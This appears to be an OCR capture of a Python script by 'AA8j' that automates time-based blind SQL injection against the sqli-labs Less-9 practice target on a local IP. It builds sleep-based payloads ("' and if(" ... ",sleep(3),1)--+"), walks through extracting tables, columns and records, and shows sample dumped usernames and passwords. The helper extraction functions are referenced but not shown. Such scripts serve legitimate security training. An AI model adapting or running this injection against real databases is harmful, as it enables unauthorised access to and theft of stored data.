     
    def html_get_time(url):
        # 返回响应时间
        req = requests.session()
        ua = UserAgent()
        headers = {'User-Agent': ua.random}
        timeout = 6
        response = req.get(url, headers=headers, timeout=timeout)
        return response.elapsed.seconds
    
    
    def main():
        url = 'http://192.168.8.46/sqli-labs-master/Less-9/?id=1'
        payload_header = "' and if("
        payload_end = ",sleep(3),1)--+"
    
        print('========Time-based-blind-SQL-injection==============')
        print('=====================By:AA8j========================')
        print('目标：' + url)
    
        # ------------------------获取表-------------------------------
        tables_list = get_tables(url, payload_header, payload_end)
        # tables_list = ['emails', 'referers', 'uagents', 'users']
        for i in range(0, len(tables_list)):
            print(f'{i + 1}.{tables_list[i]}', end=' ')
        chose_table = tables_list[int(input('\n请选择要获取字段的表名：')) - 1]
    
        # ------------------------获取字段-----------------------------
        columns_list = get_columns(chose_table, url, payload_header, payload_end)
        # columns_list = ['id', 'username', 'password']
        for i in range(0, len(columns_list)):
            print(f'{i + 1}.{columns_list[i]}', end=' ')
        print()
    
        # ------------------------获取记录-----------------------------
        data = get_data(chose_table, columns_list, url, payload_header, payload_end)
        # data = [['1', 'Dumb', 'Dumb'], ['2', 'Angelina', 'I-kill-you'], ['3', 'Dummy', 'p@ssword']]
        for i in columns_list:
            print(i.ljust(20), end='')
        print('\n' + '-' * len(columns_list) * 20)
        for i in data:
            for j in i:
                print(j.ljust(20), end='')
            print('\n' + '-' * len(columns_list) * 20)
    